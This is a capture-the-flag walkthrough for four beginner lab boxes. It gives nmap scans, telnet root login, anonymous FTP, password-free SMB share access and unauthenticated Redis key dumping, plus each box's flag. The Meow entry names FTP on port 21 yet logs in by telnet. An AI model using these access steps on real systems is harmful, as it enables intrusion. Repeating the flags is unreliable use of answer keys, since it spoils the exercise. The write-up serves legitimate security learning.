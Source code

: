 # STARTING POINT BOXES

--------------------------------------------------------------------

**TOOLS USED**: nmap


--------------------------------------------------------------------

## MEOW BOX

**IP Address**: 10.129.70.43

```
nmap -sC -sV -oN nmap.txt 10.129.70.43
```

**EXPOSED PORT (SERVICE)**: 21 (ftp)

```
telnet 10.129.70.43
```

user: root

FLAG: b40abdfe23665f766f9c61ecba8a4c19

--------------------------------------------------------------------

## FAWN BOX

**IP Address**: 10.129.98.220

```
nmap -sC -sV -oN nmap.txt 10.129.98.220
```

Anonymous ftp login was enabled
```
ftp 10.129.98.220
```
user: anonymous<br>
passwd: anonymous<br>

```
get flag.txt
```

FLAG: 035db21c881520061c53e0536e44f815

--------------------------------------------------------------------

## DANCING BOX

**IP Address**: 10.129.142.29

```
nmap -sC -sV -oN dancing_nmap.txt 10.129.142.29
```

To list the smb shares:
```
smbclient -L 10.129.142.29
```
Shares: ADMIN$, C$, IPC$, WorkShares

WorkShares doesn't require a password. Other ones are default shares ($)

```
smbclient //10.129.142.29/WorkShares
get flag.txt
```

FLAG: 5f61c10dffbc77a704d76016a22f1664

--------------------------------------------------------------------

## REDEEMER

**IP Address**: 10.129.34.251

```
nmap -sC -p- -T5 -oN redeemer_nmap.txt 10.129.34.251
```

-p-: all ports
-T5: speed up scan because -p- is slow

**EXPOSED PORT (SERVICE)**: 6379 (redis)

Redis: in-memory database

```
redis-cli -h 10.129.34.251
INFO SERVER
INFO KEYSPACE
SELECT 0
KEYS *
GET FLAG
```

FLAG: 03e1d2b376c37ab3f5319922053953eb"

--------------------------------------------------------------------

## EXPLOSION

**IP Address**:

FLAG:

--------------------------------------------------------------------

## PREIGNITION

**IP Address**:

FLAG:

